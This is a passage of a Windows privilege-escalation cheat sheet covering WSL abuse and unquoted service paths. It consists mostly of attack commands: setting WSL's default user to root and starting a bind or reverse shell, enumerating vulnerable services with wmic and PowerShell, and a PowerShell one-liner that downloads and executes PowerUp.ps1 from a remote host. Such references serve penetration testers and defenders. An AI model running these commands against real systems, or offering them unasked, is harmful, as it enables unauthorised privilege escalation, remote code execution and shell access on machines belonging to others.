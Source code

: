 ## EoP - Windows Subsystem for Linux (WSL)

Technique borrowed from [Warlockobama's tweet](https://twitter.com/Warlockobama/status/1067890915753132032)

> With root privileges Windows Subsystem for Linux (WSL) allows users to create a bind shell on any port (no elevation needed). Don't know the root password? No problem just set the default user to root W/ .exe --default-user root. Now start your bind shell or reverse.

```
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

Binary `bash.exe` can also be found in `C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe`

Alternatively you can explore the `WSL` filesystem in the folder `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\`

## EoP - Unquoted Service Paths

The Microsoft Windows Unquoted Service Path Enumeration Vulnerability. All Windows services have a Path to its executable. If that path is unquoted and contains whitespace or other separators, then the service will attempt to access a resource in the parent path first.

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

- Metasploit exploit : `exploit/windows/local/trusted_service_path`
- PowerUp exploit
    

- ```
    # find the vulnerable application
    C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
    
    ...
    [*] Checking for unquoted service paths...
    ServiceName   : BBSvc
    Path          : C:\Program Files\Microsoft\Bing Bar\7.1\BBSvc.exe
    StartName     : LocalSystem
    AbuseFunction : Write-ServiceBinary -ServiceName 'BBSvc' -Path <HijackPath>
    ...
    